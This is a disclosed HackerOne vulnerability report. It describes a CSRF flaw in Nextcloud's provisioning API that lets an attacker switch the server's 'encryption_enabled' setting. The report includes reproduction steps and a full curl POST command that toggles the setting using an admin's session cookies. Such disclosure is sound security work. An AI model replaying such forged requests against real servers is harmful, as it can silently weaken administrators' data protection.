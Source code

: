 # CSRF vulnerability that allows an attacker to modify encryption settings

## Report Details
- **Report ID**: 630146
- **URL**: https://hackerone.com/reports/630146
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-06-26T15:58:36.403Z
- **Disclosed**: 2019-12-07T09:54:05.730Z

## Reporter
- **Username**: cwave
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
The POST request to  /ocs/v2.php/apps/provisioning_api/api/v1/config/apps/core/encryption_enabled is missing a unique token, so that if an attack can trick an admin user with an active session to visit an attacker controlled website, he/she can control the core application setting "encryption_enabled"

Steps to reproduce:
1. Set up a HTTP proxy between your browser and the Nextcloud server
2. Login to Nextcloud website
3. Go to HTTP proxy tool and copy the value of Cookie header from any request subsequent to login
4. Execute the following curl command by replacing <nextcloud_server> with Nextcloud server address and by replacing <cookies> with valid cookie values copied in step 3

curl -i -s -k  -X $'POST'     -H $'Host: <nextcloud_server>' -H $'Proxy-Connection: keep-alive' -H $'Content-Length: 10' -H $'Accept: */*' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'OCS-APIREQUEST: true' -H $'Origin: http://<nextcloud_server>' -H $'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.96 Safari/537.36' -H $'X-Requested-With: XMLHttpRequest' -H $'requesttoken: sSxMouPIwzbpI5ErZycXzGqCsOzacYntRk18kUOwin4=:gBUhzYWys3qhEqNPFE1frx663pq9BdjaKiwz5zfo6y4=' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9 ' -H $'Cookie: <cookies>'     --data-binary $'value=no\x0d\x0a'     $'http://<nextcloud_server>/ocs/v2.php/apps/provisioning_api/api/v1/config/apps/core/encryption_enabled' 


5. Watch how the request executes successful every time it is executed. By modifying the value (--data-binary $'value=yes\x0d\x0a') and updating the Content-Length header accordingly, you can toggle the state of encryption_enabled setting.

6. You can verify the request was executed successfully by checking the value of "encryption_enabled" configkey in nextcloud database:

    select * from oc_appconfig where appid='core' and configkey='encryption_enabled';

## Impact

An attacker can activate/deactivate the encryption_enabled setting

## Attachments
- csrf_no.JPG
- csrf_db_no.JPG
- csrf_yes.JPG
- csrf_db_yes.JPG
